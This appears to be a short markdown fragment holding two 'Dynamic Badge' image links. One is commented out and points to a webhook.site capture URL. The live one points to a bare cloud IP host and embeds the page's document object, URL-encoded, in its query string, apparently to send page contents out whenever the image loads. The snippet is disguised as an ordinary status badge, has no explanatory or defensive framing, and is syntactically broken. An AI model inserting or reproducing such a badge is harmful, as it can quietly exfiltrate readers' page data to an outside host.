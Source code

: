 <!-- ![Dynamic Badge](https://webhook.site/8714cbf4-0235-49e8-9ecb-6cc153712f85/json?url=data:application/json,%7B%22label%22:%22myLabel%22,%22value%22:%2242%22%7D&query=$.value&color=blue) -->
	


![Dynamic Badge](http://163.17.197.104.bc.googleusercontent.com/json?url=data:application/json,{"label":"myLabel","value":"${encodeURIComponent(document)}"}&query=$.value&color=blue`)
